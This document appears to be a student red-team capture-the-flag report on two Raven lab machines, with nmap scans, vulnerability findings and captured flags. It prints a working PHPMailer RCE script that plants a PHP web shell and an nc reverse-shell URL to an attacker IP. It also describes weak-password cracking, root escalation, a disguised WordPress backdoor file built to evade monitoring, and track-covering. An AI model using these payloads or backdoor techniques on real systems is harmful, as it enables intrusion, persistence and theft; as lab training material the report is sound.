# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

### Target 1
```bash
$ nmap -v -sC -sV -oA nmap/initialStandardPorts 192.168.1.110 
  # Nmap 7.80 scan initiated Wed Apr 14 03:09:06 2021 as: nmap -v -sC -sV -oA nmap/initialStandardPorts 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00091s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind                                                                                   
|   100024  1          33777/udp6  status                                                                                    
|   100024  1          43997/udp   status                                                                                    
|   100024  1          48479/tcp6  status                                                                                    
|_  100024  1          60157/tcp   status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h19m59s, deviation: 5h46m24s, median: 0s
| nbstat: NetBIOS name: TARGET1, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   TARGET1<00>          Flags: <unique><active>
|   TARGET1<03>          Flags: <unique><active>
|   TARGET1<20>          Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET1\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2021-04-14T20:09:19+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-14T10:09:19
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 14 03:09:19 2021 -- 1 IP address (1 host up) scanned in 13.04 seconds


$ nmap -p 33414 -v -sC -sV -oA nmap/33414Service 192.168.1.110
# Nmap 7.80 scan initiated Thu Apr 15 18:28:44 2021 as: nmap -p 33414 -v -sC -sV -oA nmap/33414Service 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00091s latency).

PORT      STATE SERVICE VERSION
33414/tcp open  status  1 (RPC #100024)
MAC Address: 00:15:5D:00:04:10 (Microsoft)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 15 18:28:56 2021 -- 1 IP address (1 host up) scanned in 11.86 seconds
```

### Target 2
```bash
$ nmap -v -sC -sV -oA nmap/initialDefaultPorts 192.168.1.115
# Nmap 7.80 scan initiated Wed Apr 14 21:45:57 2021 as: nmap -v -sC -sV -oA nmap/initialDefaultPorts 192.168.1.115
Nmap scan report for 192.168.1.115
Host is up (0.0011s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46731/tcp6  status
|   100024  1          48209/udp6  status
|   100024  1          50950/udp   status
|_  100024  1          56924/tcp   status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: 0s
| nbstat: NetBIOS name: TARGET2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   TARGET2<00>          Flags: <unique><active>
|   TARGET2<03>          Flags: <unique><active>
|   TARGET2<20>          Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET2\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2021-04-15T14:46:09+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-15T04:46:09
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 14 21:46:10 2021 -- 1 IP address (1 host up) scanned in 12.67 seconds


$ nmap -p 51781 -v -sC -sV -oA nmap/51781Service 192.168.1.115
# Nmap 7.80 scan initiated Thu Apr 15 18:31:27 2021 as: nmap -p 51781 -v -sC -sV -oA nmap/51781Service 192.168.1.115
Nmap scan report for raven.local (192.168.1.115)
Host is up (0.00056s latency).

PORT      STATE SERVICE VERSION
51781/tcp open  status  1 (RPC #100024)
MAC Address: 00:15:5D:00:04:11 (Microsoft)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 15 18:31:39 2021 -- 1 IP address (1 host up) scanned in 12.03 seconds
```

These scans identify the services below as potential points of entry:
- ### Target 1
  - SSH (22)
  - HTTP (80) 
  - RPC rpcbind (111)
  - Samba (139)
  - Samba (445)
  - RPC status (33414)

- ### Target 2
  - SSH (22)
  - HTTP (80) 
  - RPC rpcbind (111)
  - Samba (139)
  - Samba (445)
  - RPC status (51781)

## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- ### Target 1
  - CWE-521: Weak Password Requirements (one password easily guessed, two passwords cracked with hashcat)
  - CWE-250: Execution with Unnecessary Privileges (installed version Python ..., allows privilege escalation to root)

- ### Target 1 and Target 2
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
  - CWE-548: Exposure of Information Through Directory Listing
  - CWE-269: Improper Privilege Management 
  - CVE-2016-10033: PHPMailer before 5.2.18 Remote Code Execution (installed version PHPMailer 5.2.17, CVSS score 7.5)
  - CWE-250: Execution with Unnecessary Privileges (installed version MySQL 14.14 running as root, [allows privilege escalation](https://recipeforroot.com/mysql-to-system-root/))
  - [EDB-ID-1518](https://www.exploit-db.com/exploits/1518): MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
  - CVE-2021-3156: Heap Buffer Overflow in Sudo (installed version 1.8.10p3, allows privilege escalation to root)
## Vulnerability Scanning And Enumeration
### NMap
Nmap returns exactly the same vulnerability scan output for both target machines.
Therefore, only a single set of output is presented below.
```bash 
$ nmap -v -sV --script=vulners -oA nmap/vulnScan 192.168.1.110
# Nmap 7.80 scan initiated Wed Apr 14 21:20:18 2021 as: nmap -v -sV --script=vulners -oA nmap/vulnScan 192.168.1.110
Nmap scan report for raven.local (192.168.1.110)
Host is up (0.0021s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:6.7p1: 
|       CVE-2015-5600   8.5     https://vulners.com/cve/CVE-2015-5600
|       EDB-ID:40888    7.8     https://vulners.com/exploitdb/EDB-ID:40888      *EXPLOIT*
|       EDB-ID:41173    7.2     https://vulners.com/exploitdb/EDB-ID:41173      *EXPLOIT*
|       CVE-2015-6564   6.9     https://vulners.com/cve/CVE-2015-6564
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
|       SSV:90447       4.6     https://vulners.com/seebug/SSV:90447    *EXPLOIT*
|       EDB-ID:45233    4.6     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       EDB-ID:45210    4.6     https://vulners.com/exploitdb/EDB-ID:45210      *EXPLOIT*
|       EDB-ID:45001    4.6     https://vulners.com/exploitdb/EDB-ID:45001      *EXPLOIT*
|       EDB-ID:45000    4.6     https://vulners.com/exploitdb/EDB-ID:45000      *EXPLOIT*
|       EDB-ID:40963    4.6     https://vulners.com/exploitdb/EDB-ID:40963      *EXPLOIT*
|       EDB-ID:40962    4.6     https://vulners.com/exploitdb/EDB-ID:40962      *EXPLOIT*
|       CVE-2016-0778   4.6     https://vulners.com/cve/CVE-2016-0778
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2015-5352   4.3     https://vulners.com/cve/CVE-2015-5352
|       CVE-2016-0777   4.0     https://vulners.com/cve/CVE-2016-0777
|_      CVE-2015-6563   1.9     https://vulners.com/cve/CVE-2015-6563
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| vulners: 
|   cpe:/a:apache:http_server:2.4.10: 
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       EDB-ID:47689    5.8     https://vulners.com/exploitdb/EDB-ID:47689      *EXPLOIT*
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       CVE-2016-5387   5.1     https://vulners.com/cve/CVE-2016-5387
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       MSF:AUXILIARY/SCANNER/HTTP/APACHE_OPTIONSBLEED  5.0     https://vulners.com/metasploit/MSF:AUXILIARY/SCANNER/HTTP/APACHE_OPTIONSBLEED        *EXPLOIT*
|       EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7    5.0     https://vulners.com/exploitpack/EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7 *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D *EXPLOIT*
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
|       CVE-2016-2161   5.0     https://vulners.com/cve/CVE-2016-2161
|       CVE-2016-0736   5.0     https://vulners.com/cve/CVE-2016-0736
|       CVE-2015-3183   5.0     https://vulners.com/cve/CVE-2015-3183
|       CVE-2015-0228   5.0     https://vulners.com/cve/CVE-2015-0228
|       CVE-2014-3583   5.0     https://vulners.com/cve/CVE-2014-3583
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573        *EXPLOIT*
|       1337DAY-ID-26574        5.0     https://vulners.com/zdt/1337DAY-ID-26574        *EXPLOIT*
|       EDB-ID:47688    4.3     https://vulners.com/exploitdb/EDB-ID:47688      *EXPLOIT*
|       CVE-2020-11985  4.3     https://vulners.com/cve/CVE-2020-11985
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
|       CVE-2015-3185   4.3     https://vulners.com/cve/CVE-2015-3185
|       CVE-2014-8109   4.3     https://vulners.com/cve/CVE-2014-8109
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|       PACKETSTORM:140265      0.0     https://vulners.com/packetstorm/PACKETSTORM:140265      *EXPLOIT*
|       EDB-ID:42745    0.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40961    0.0     https://vulners.com/exploitdb/EDB-ID:40961      *EXPLOIT*
|       1337DAY-ID-601  0.0     https://vulners.com/zdt/1337DAY-ID-601  *EXPLOIT*
|       1337DAY-ID-2237 0.0     https://vulners.com/zdt/1337DAY-ID-2237 *EXPLOIT*
|       1337DAY-ID-1415 0.0     https://vulners.com/zdt/1337DAY-ID-1415 *EXPLOIT*
|_      1337DAY-ID-1161 0.0     https://vulners.com/zdt/1337DAY-ID-1161 *EXPLOIT*
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33956/udp6  status
|   100024  1          44663/udp   status
|   100024  1          55565/tcp   status
|_  100024  1          59743/tcp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 14 21:20:34 2021 -- 1 IP address (1 host up) scanned in 16.23 seconds

$ nmap -p 51781 -v --script=vulners -sV -oA nmap/51781Vuln 192.168.1.115
# Nmap 7.80 scan initiated Thu Apr 15 18:38:30 2021 as: nmap -p 51781 -v --script=vulners -sV -oA nmap/51781Vuln 192.168.1.115
Nmap scan report for raven.local (192.168.1.115)
Host is up (0.00084s latency).

PORT      STATE SERVICE VERSION
51781/tcp open  status  1 (RPC #100024)
MAC Address: 00:15:5D:00:04:11 (Microsoft)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 15 18:38:42 2021 -- 1 IP address (1 host up) scanned in 11.71 seconds
```

### GoBuster
GoBuster was run against the domain root Target 2, to find hidden directories and files.


### WPscan
WPScan was run against Target 1 and Target 2, revealing 2 usernames.



### Nikto
Nikto was run against Target 2 on the domain root and the Wordpress application.





### Wordpress Version



<!---
### Apache version!!

### MySQL Version



### PHP Version


-->
### PHPMailer Version



### Searchsploit







### LinPeas
Once shell access was obtained for Target 2, LinPeas was run to help find possible privilege ecalation vulnerabilities.

Running [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) on Target 2, reveals 2 potential privilege escalation vulnerabilities.



### Baron Samedit Tests
[Testing for a Segmentation fault prooves](https://blog.aquasec.com/cve-2021-3156-sudo-vulnerability-allows-root-privileges) that the version of sudo on Target 2 is vulnerable to the Baron Samedit Heap Buffer Overflow (CVE-2021-3156).



The Metasploit Baron Samedit exploit also recognises the target as vulnerable, however, compiler option issues prevented it from being run on this target.



Attempts to manually compile and run a Baron Samedit exploit, that successfully provided initial proof of concept in Ubuntu 18.04, also failed. Compilation was achieved by adding the required compiler option, which was not required in Ubuntu. However we were unable to find the requred variables to successfully exploit Target 2 within the short timeframe of this engagement.

## Exploitation

The Red Team was able to penetrate `Target 1` and `Target 2` and retrieve the following confidential data:
- ### **Target 1**

  When initially viewing of the web page, it appears broken because CSS is not being loaded.

  

  Updating the hosts file with the domain name and IP address fixes the broken links in the site.

  

  

  - **`Flag 1`:** flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
    - **Explanation**

      The sensitive information, `Flag 1`, is publicly available in the page source at the URL: `raven.local/service.html`.

        

  - **`flag2.txt`:** flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
      - CWE-521: Weak Password Requirements
    - **Explanation**
      
      The WPscan results revealed two Wordpress usernames, Michael and Steven. SSH access was aquired as the user michael, by guessing the password, which was also michael (password exactly the same as username).

      

  - `Flag 3`: flag3{afc01ab56b50591e7dccf93122770cd2}
  - `Flag 4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - CWE-521: Weak Password Requirements
      - CWE-269: Improper Privilege Management
    - **Explanation**

      The Wordpress MySQL database credentials are usually stored in `/var/www/html/wordpress/wp-config.php`, allowing anyone with permission to read that file to run arbitrary commands directly against the Worpress database. The credentials in use by Wordpress are the root MySQL database credentials. These credentials can access all MySQL databases on the server, rather than being restricted to accessing only the Wordpress database.

      

      The Wordpress password hash for Steven and Michael were accessed in the Wordpress database.

      

      Using John the Ripper and the `rockyou.txt` wordlist, Steven's Wordpress password was cracked, proving that Steven's Wordpress password is weak. Michael's Wordpress password is better than his SSH password, as it was not cracked in this test.

      

      With Steven's credentials we can log into Wordpress admin and view his posts, revealing the last two flags. These posts are stored in the Wordpress database and, therefore, were accessible from Michael's account before cracking Steven's password.

           

  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
  - `/etc/shadow`
    - **Exploit Used**
      - CWE-250: Execution with Unnecessary Privileges (steven user has sudo privileges for Python)
    - **Explanation**

      Steven is using the same weak password for Wordpress and SSH, allowing anyone who obtains his Wordpress password to access the target via SSH. Steven's sudo privileges for Python allows him to spawn a root shell.
      
      

- ### Target 2
  - `Flag 1`: flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    - **Exploit Used**
      - CWE-548: Exposure of Information Through Directory Listing
    - **Explanation**
      
      Directory is listing enabled at `raven.local/vendor/`, which allows anyone to browse the files and diectories at this location.
      
      
      
    - **Exploit Used**
      - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
    - **Explanation**

      The confidential data, `Flag 1`, is publicly available at the URL `raven.local/vendor/PATH`
      
      
  - `flag2.txt`: flag2{6a8ed560f0b5358ecf844108048eb337}
  - `flag3.png`: flag3{a0f568aa9de277887f37730d71520d9b}
    - **Exploit Used**
      - CVE-2016-10033: PHPMailer before 5.2.18 Remote Code Execution (installed version PHPMailer 5.2.17, CVSS score 7.5)
    - **Explanation**

      The following bash script drops a PHP script, `backdoor.php`, in the `/var/www/html` directory on the target. The `backdoor.php` script  accepts an HTTP get request containing a URL encoded paramter containing a shell command, that is executed using the `www-data` user executing Apache on the target. Because the hosts file on the attack machine has been updated with the domain name and IP address of the target, no modification of this file was required.
      
      ```bash
      #!/bin/bash
      # Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

      TARGET=http://raven.local/contact.php

      DOCROOT=/var/www/html
      FILENAME=backdoor.php
      LOCATION=$DOCROOT/$FILENAME

      STATUS=$(curl -s \
                    --data-urlencode "name=Hackerman" \
                    --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
                    --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
                    --data-urlencode "action=submit" \
                    $TARGET | sed -r '146!d')

      if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
        echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
      else
        echo "[!] Exploit failed"
      fi      
      ```

      While the attack machine was listening on port 4444, the URL `raven.local/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20%2Fbin%2Fbash` was accessed, triggering a reverse shell.

      

      

  - `flag4.txt`:flag4{df2bc5e951d91581467bb9a2a8ff4425}
  - `/etc/shadow`
    - **Exploit Used**
      - CWE-250: Execution with Unnecessary Privileges (installed version MySQL 14.14 running as root, [allows privilege escalation](https://recipeforroot.com/mysql-to-system-root/))
      - [EDB-ID-1518](https://www.exploit-db.com/exploits/1518): MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
    - **Explanation**

      

        

## Post Exploitation
### Backdooring The Target
The backdoor, left to allow easy future access to the target, takes advantage of the user defined function that was installed in the MySQL database server during the privilege escalation step in the penetration test of Target 2. This backdoor provides the user with a reverse shell with root privileges. Two scripts were written to achieve this goal.

On the Target, a php script was left, that accepts an HTTP post request containing a base64 encoded SQL query. The PHP script loads the Wordpress database connection credentials from the `wp-congig.php` file, connects to the database, and runs the posted SQL. This PHP script was hidden in the `/var/www/html/wordpress` folder, which is where the core Wordpress PHP code is stored. The PHP script was named `wp-blog-footer.php`, so that it blends in with the core Wordpress code, making it less likely to be noticed. 



Passing the entire SQL query in the HTTP post request removes the most obvious evidence that `wp-blog-footer.php` creates a reverse shell, or that a user defined function has been installed in the database. Base64 encoding the HTTP post request slightly obscures the content of the request body, making it less obvious to any network monitoring that may inspect HTTP packets.

On the attack machine, a Python script, `knock.py`, was written that constructs and encodes the HTTP post request, and sends it to `wp-blog-footer.php` on the target. The SQL sent by `knock.py` is the same query that was run during the privilege escalation exploit used during the penetration test of Target 2. 
 


Therefore, all that the user needs to do to gain root access to the target, is listen on the appropriate port and run `knock.py`.



### Covering Tracks
The following files were removed after the penetration test was completed.
- /tmp/linpeas.sh
- /tmp/1518.c
- /tmp/1518.o
- /tmp/1518.so
- /var/www/html/flag3.png
- /var/www/html/backdoor.php
- /var/www/html/metRev.php
- /var/www/html/linpeas.out

If more time had been available for this engagement, the relevent log entries would also have been removed.
### Assesing Password Complexity
The SHA-512 Linux password hashes, that were copied from the `/etc/shadow` files on both targets, were assesed by attempting to crack them using Hashcat, using the straight attack mode and the wordlist `rockyou.txt`.



The passwords of the users Michael and Steven on Target 1 were successfully cracked in a short period of time, proving that they are weak passwords and should be changed. None of the passwords from Target 2 were cracked during this test.
